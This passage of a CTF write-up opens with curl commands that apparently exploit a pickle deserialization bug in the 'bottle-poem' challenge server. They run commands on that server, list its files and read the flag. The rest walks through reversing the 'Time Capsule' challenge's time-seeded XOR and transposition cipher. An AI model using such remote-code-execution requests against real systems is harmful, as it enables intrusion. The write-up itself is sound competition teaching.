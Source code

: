 ```
$ curl http://bottle-poem.ctf.sekai.team/sign -H "$(./sign.py 'find / > /tmp/nevinevi')" -o /dev/null
$ curl http://bottle-poem.ctf.sekai.team/show?id=/tmp/nevinevi | grep flag
[...]
/flag
$ curl http://bottle-poem.ctf.sekai.team/sign -H "$(./sign.py '/flag > /tmp/nevinevi')" -o /dev/null
$ curl http://bottle-poem.ctf.sekai.team/show?id=/tmp/nevinevi
SEKAI{W3lcome_To_Our_Bottle}
```

## Time Capsule (Cryptography)

> I have encrypted a secret message with this super secure algorithm and put it
> into a Time Capsule. Maybe nobody can reveal my secret without a time
> machine...
>
> Author: sahuang
>
> [chall.py](time-capsule/chall.py) [flag.enc](time-capsule/flag.enc)

We are given an encryption program and a ciphertext. The encryption program has
two distinct phases that do not share state, so we will tackle each phase
separately, in reverse order.

The second phase seems to be mainly an XOR cipher, with a keystream generated
with `random.randrange()` seeded with the value of `now = time.now()` padded to
18 characters. The time is XORed with the constant `0x42` and is also appended
to the ciphertext.

Since the random key generation seed is right there, we can recover it and rever
this phase easily.

```
now = xor(data[-18:], 0x42)
enc = data[:-18]

random.seed(now)
key = [random.randrange(256) for _ in enc]
enc = xor(enc, key)
```

At this stage, the challenge ciphertext decrypts to
`5!K3rn{T_5SA!}0ypC11uu__E__3j5LFI0Esr0m_1!1`.

Next, we need to reverse the first phase. This phase generates an 8-byte random
key and applies some `encrypt_stage_one()` function 42 times with that key.

The key generation function generates 8 random unique bytes. Then the
`encrypt_stage_one()` function takes the key, orders it by value (but maintains
the original index), and uses this index order to shuffle the message bytes
around. That is, given some key like `[13, 17, 8, 1, 2, 3, 4, 5]`, it results in
indices like `[(1, 3), (2, 4), (3, 5), (4, 6), (5, 7), (8, 2), (13, 0), (17,
1)]`. It then looks at the original index `i` of each key to append the
`i[0]`th, `i[0]+8`th, `i[0]+16`th character and so on, followed by the `i[1]`th,
`i[1]+8`th, `i[1]+16` character and so on.


[^pickle-rce-ref]: Copied from https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
[^wiki-cbc-length]: https://en.wikipedia.org/wiki/CBC-MAC#Security_with_fixed_and_variable-length_messages